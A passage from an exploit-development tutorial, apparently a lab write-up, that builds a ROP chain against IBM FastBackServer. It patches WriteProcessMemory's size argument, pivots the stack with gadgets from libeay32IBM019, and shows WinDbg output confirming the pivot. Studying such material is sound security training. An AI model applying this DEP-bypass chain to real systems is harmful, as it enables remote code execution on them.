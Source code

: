 The last step is to patch dwSize. As with prior ROP chains, we should reuse gadgets when we need to repeat similar actions.

**The shellcode size does not have to be precise**. If it is too large, additional stack content will simply be copied as well. Most 32-bit Metasploit-generated shellcodes **are smaller than 500 bytes,** so we can use an arbitrary size value of **-524 (0xfffffdf4)** and then negate it to make it positive.
**Note: This won't be enough if we use the decoding routine, so I recommend putting a higher value. Instead of 524, my shellcode was 560 bytes long! So please adapt to your shellcode.**

As eax points to lpBuffer and nSize is 4 bytes higher, we use 4 add eax gadgets first.
Then we transfer eax value to esi and use eax to store -524. Then we negate such value and use the `mov [eax], ecx` technique to patch dwSize.

The last step is to execute the shellcode. We stored the return address (shellcode in the codecave) so we have to point ESP there a perform a "ret" operation. We’ll do this the same way we aligned EAX earlier. We know that EAX points 0x14 bytes (5 x 4bytes) ahead of WriteProcessMemory on the stack. We can fix that easily with previously used gadgets. The updated ROP chain is shown below.
```python
# Align ESP with ROP Skeleton
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xffffffec)) # -0x14
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret
```

In the above ROP chain, we popped the value -0x14 (0xffffffec) into ECX, added it to EAX, and then used a gadget with an XCHG instruction to align ESP to the stack address stored in EAX.
After executing this part of the ROP chain, we should return into WriteProcessMemory with all the arguments set up correctly. We can observe this in practice by restarting FastBackServer, attaching WinDbg, and setting a breakpoint on the “XCHG EAX, ESP” gadget.

```c
0:077> bp libeay32IBM019+0x5b415
0:078> g
Breakpoint 0 hit
eax=0d5ee2dc ebx=05e6c388 ecx=ffffffec edx=76f62da0 esi=42424242 edi=00669360
eip=02e6b415 esp=0d5ee3a0 ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
libeay32IBM019!N98E_a2i_ASN1_INTEGER+0x85:
02e6b415 94              xchg    eax,esp

0:082> p
eax=0d5ee3a0 ebx=05e6c388 ecx=ffffffec edx=76f62da0 esi=42424242 edi=00669360
eip=02e6b416 esp=0d5ee2dc ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
libeay32IBM019!N98E_a2i_ASN1_INTEGER+0x86:
02e6b416 c3              ret

0:082> p
eax=0d5ee3a0 ebx=05e6c388 ecx=ffffffec edx=76f62da0 esi=42424242 edi=00669360
eip=765a3ad0 esp=0d5ee2e0 ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
KERNEL32!WriteProcessMemoryStub:
765a3ad0 8bff            mov     edi,edi

0:082> dds esp L6
0d5ee2e0  02ea2c04 libeay32IBM019!N98E_bn_sub_words+0x107c
0d5ee2e4  ffffffff
0d5ee2e8  02ea2c04 libeay32IBM019!N98E_bn_sub_words+0x107c
0d5ee2ec  0d5ee40c
0d5ee2f0  0000020c
0d5ee2f4  02ef401c libeay32IBM019!N98E_OSSL_DES_version+0x4f018

```

